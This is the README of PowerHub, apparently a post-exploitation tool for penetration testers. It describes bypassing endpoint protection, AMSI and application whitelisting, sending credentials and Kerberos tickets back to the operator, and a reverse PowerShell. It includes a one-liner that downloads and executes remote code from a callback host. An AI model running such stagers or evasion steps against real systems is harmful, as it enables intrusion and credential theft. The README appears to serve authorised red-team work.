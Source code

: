 PowerHub
========

PowerHub is a convenient post exploitation tool which aids a pentester in
transferring files, in particular code which may get flagged by endpoint
protection. Check out the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)!

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

On top of that, PowerHub comes with a reverse PowerShell, making it suitable
for any kind of post-exploitation action.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment:

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install -r requirements.txt`
to install the depencendies inside the virtual environment.

Python2 is not supported.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zeroc00l, mar10, p3nt4.
And of course, it would be nothing without @harmj0y, @mattifestation and the
many other contributors to [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
